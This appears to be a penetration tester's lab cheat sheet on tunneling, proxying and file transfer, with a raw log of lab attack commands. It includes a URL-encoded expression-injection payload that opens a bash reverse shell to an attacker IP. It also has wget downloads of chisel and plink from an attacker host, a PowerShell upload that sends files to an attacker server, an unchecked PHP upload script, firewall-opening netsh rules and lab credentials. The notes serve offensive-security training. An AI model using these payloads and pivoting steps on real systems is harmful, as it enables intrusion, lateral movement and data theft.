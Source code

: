 # Tunnel Proxy Transfer

## Tunnel

### chisel

<https://github.com/jpillora/chisel>

```bash
# server
./chisel server -p 4444 --reverse

# client
./chisel client 172.16.8.144:4444 R:socks

wget 192.168.45.183/chisel_1.9.1_linux_amd64 -O /tmp/chisel && chmod +x /tmp/chisel

/tmp/chisel client 192.168.45.183:8080 R:socks
```

### ssh

#### ssh forwarding

192.168.162.63 straddle WAN and DMZ
10.4.162.215 is in DMZ
172.16.162.217 is in Intranet

```bash
#local port forwarding
ssh -N -L 0.0.0.0:4455:172.16.162.217:445 database_admin@10.4.162.215

smbclient -p 4455 -L //192.168.162.63/ -U hr_admin --password=Welcome1234
```

```bash
# remote port forwarding
ssh -N -R 127.0.0.1:2345:10.4.162.215:5432 parallels@192.168.45.183
```

#### ssh tunnel

```bash
# forward ssh tunnel
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
```

```bash
# reverse ssh tunnel
ssh -N -R 9090 kali@172.16.8.144
```

### plink

kali ip:172.16.8.144
intranet http server ip:192.168.18.1:80
so this is a reverse tunnel.

```cmd
scp kali@172.16.8.144/usr/share/windows-binaries/plink.exe .
plink -ssh -l kali -pw kali -R 172.16.8.144:5050:192.168.18.1:80 172.16.8.144
```

request to kali:5050 will be forwarded to intranet http server.

### netsh

local windows ip:172.16.8.152
intranet http server ip:192.168.18.1:80
so this is a forward tunnel.

```cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=172.16.8.152 connectport=80 connectaddress=192.168.18.1
```

request to windows:8080 will be forwarded to intranet http server.

## Proxy

### proxychains

nmap -sT means TCP connect scan, you shuld add -sT when you use proxychains to scan.

```bash
proxychains nmap -sT -vv 192.168.18.1

/etc/proxychains.conf
tcp_read_time_out 1000
tcp_connect_time_out 500
```

## Transfer

### download

#### rdp

```bash
xfreerdp /u:offsec /p:lab /v:192.168.159.61 /drive:home,/home/parallels/Downloads
```

### upload

#### appache php server

/var/www/html/upload.php

```php
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir.$_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile);
?>
```

```bash
sudo mkdir /var/www/uploads
sudo chown www-data: /var/www/uploads
```

```powershell
powershell (new-object System.Net.WebClient).UploadFile('http://172.16.8.144/upload.php', 'C:\Users\Public\nc.exe')
```

## Labs

```
http://192.168.162.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.183/4444%200%3E%261%27%29.start%28%29%22%29%7D/

python3 -c 'import pty; pty.spawn("/bin/bash")'
ssh database_admin@10.4.162.215
sqlpass123
ssh -N -L 0.0.0.0:4455:172.16.162.217:445 database_admin@10.4.162.215
smbclient -p 4455 -L //192.168.162.63/ -U hr_admin --password=Welcome1234

ssh -N -R 127.0.0.1:2345:10.4.162.215:5432 parallels@192.168.45.183
ssh -N -R 127.0.0.1:2346:10.4.162.215:5432 parallels@192.168.45.183

psql -h 127.0.0.1 -p 2345 -U postgres


powershell wget -Uri http://192.168.45.183/plink.exe -OutFile C:\Windows\Temp\plink.exe

C:\Windows\Temp\plink.exe -ssh -l parallels -pw 1 -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.183

netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.162.64 connectport=22 connectaddress=10.4.162.215

netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.162.64 localport=2222 action=allow


wget 192.168.45.183/chisel_1.9.1_linux_amd64 -O /tmp/chisel && chmod +x /tmp/chisel

/tmp/chisel client 192.168.45.183:8080 R:socks

7he_C4t_c0ntro11er
```
